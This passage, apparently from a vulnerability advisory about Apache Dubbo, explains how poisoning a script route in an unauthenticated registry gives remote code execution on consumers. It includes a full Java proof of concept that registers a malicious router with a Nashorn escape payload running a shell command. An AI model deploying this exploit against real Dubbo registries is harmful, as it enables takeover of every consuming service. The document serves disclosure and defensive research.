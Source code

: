             <span class="k">if</span> <span class="o">(</span><span class="n">function</span> <span class="o">==</span> <span class="kc">null</span><span class="o">)</span> <span class="o">{</span>
                <span class="k">return</span> <span class="n">invokers</span><span class="o">;</span>
            <span class="o">}</span>
            <span class="k">return</span> <span class="nf">getRoutedInvokers</span><span class="o">(</span><span class="n">function</span><span class="o">.</span><span class="na">eval</span><span class="o">(</span><span class="n">bindings</span><span class="o">));</span>
        <span class="o">}</span> <span class="k">catch</span> <span class="o">(</span><span class="nc">ScriptException</span> <span class="n">e</span><span class="o">)</span> <span class="o">{</span>
            <span class="n">logger</span><span class="o">.</span><span class="na">error</span><span class="o">(</span><span class="s">"route error, rule has been ignored. rule: "</span> <span class="o">+</span> <span class="n">rule</span> <span class="o">+</span> <span class="s">", method:"</span> <span class="o">+</span>
                    <span class="n">invocation</span><span class="o">.</span><span class="na">getMethodName</span><span class="o">()</span> <span class="o">+</span> <span class="s">", url: "</span> <span class="o">+</span> <span class="nc">RpcContext</span><span class="o">.</span><span class="na">getContext</span><span class="o">().</span><span class="na">getUrl</span><span class="o">(),</span> <span class="n">e</span><span class="o">);</span>
            <span class="k">return</span> <span class="n">invokers</span><span class="o">;</span>
        <span class="o">}</span>
    <span class="o">}</span>
</code></pre></div></div>

<p>An attacker with access to the Registry (Zookeeper supports authentication but its is disabled by default and in most installations, and other systems such as Nacos do not even support authentication) will be able to poison a script route so that when it is retrieved by the consumers, it will get RCE on all of them.</p>

<p>For example, the following program will deploy a Script Route rule which, when download by the customers, will create a file named <code class="language-plaintext highlighter-rouge">/tmp/pwned</code> in the customer’s file system.</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>   <span class="kd">public</span> <span class="kd">static</span> <span class="kt">void</span> <span class="nf">main</span><span class="o">(</span><span class="nc">String</span><span class="o">[]</span> <span class="n">args</span><span class="o">)</span> <span class="kd">throws</span> <span class="nc">Exception</span> <span class="o">{</span>
        <span class="c1">// settings</span>
        <span class="nc">String</span> <span class="n">service_name</span> <span class="o">=</span> <span class="s">"org.apache.dubbo.samples.basic.api.DemoService"</span><span class="o">;</span>

        <span class="c1">// https://mbechler.github.io/2019/03/02/Beware-the-Nashorn/</span>
        <span class="nc">String</span> <span class="n">payload</span> <span class="o">=</span> <span class="s">"this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec(\\\"touch /tmp/pwned\\\")');"</span><span class="o">;</span>

        <span class="nc">RegistryFactory</span> <span class="n">registryFactory</span> <span class="o">=</span> <span class="nc">ExtensionLoader</span><span class="o">.</span><span class="na">getExtensionLoader</span><span class="o">(</span><span class="nc">RegistryFactory</span><span class="o">.</span><span class="na">class</span><span class="o">).</span><span class="na">getAdaptiveExtension</span><span class="o">();</span>
        <span class="nc">Registry</span> <span class="n">registry</span> <span class="o">=</span> <span class="n">registryFactory</span><span class="o">.</span><span class="na">getRegistry</span><span class="o">(</span><span class="no">URL</span><span class="o">.</span><span class="na">valueOf</span><span class="o">(</span><span class="s">"zookeeper://127.0.0.1:2181"</span><span class="o">));</span>
        <span class="n">registry</span><span class="o">.</span><span class="na">register</span><span class="o">(</span><span class="no">URL</span><span class="o">.</span><span class="na">valueOf</span><span class="o">(</span><span class="s">"script://0.0.0.0/"</span> <span class="o">+</span> <span class="n">service_name</span> <span class="o">+</span> <span class="s">"?category=routers&amp;dynamic=false&amp;rule="</span> <span class="o">+</span> <span class="no">URL</span><span class="o">.</span><span class="na">encode</span><span class="o">(</span><span class="s">"(function route(invokers) { "</span> <span class="o">+</span> <span class="n">payload</span> <span class="o">+</span> <span class="s">" return invokers; } (invokers))"</span><span class="o">)));</span>
    <span class="o">}</span>
</code></pre></div></div>
